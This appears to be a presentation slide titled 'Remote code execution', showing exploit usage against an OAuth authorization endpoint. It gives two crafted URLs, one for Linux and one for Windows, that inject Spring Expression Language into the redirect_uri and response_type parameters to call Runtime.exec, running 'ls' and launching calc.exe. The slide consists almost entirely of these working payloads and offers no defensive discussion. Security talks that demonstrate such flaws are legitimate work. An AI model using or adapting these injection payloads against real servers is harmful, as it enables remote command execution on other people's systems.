

# Remote code execution
Exploit usage
Linux
http://localhost:8080/oauth/authorize?response_type=token
&client_id=secalert&scope=openid&redirect_uri=
${T(java.lang.Runtime).getRuntime().exec("ls")}
Windows
http://localhost:8080/oauth/authorize?response_type=
calc.exe${T%28java.lang.Runtime%29.getRuntime%28%29.exec%28toString%28%29.substring%28112,120%29%29}&client_id=secalert&scope=openid&redirect_uri=http://test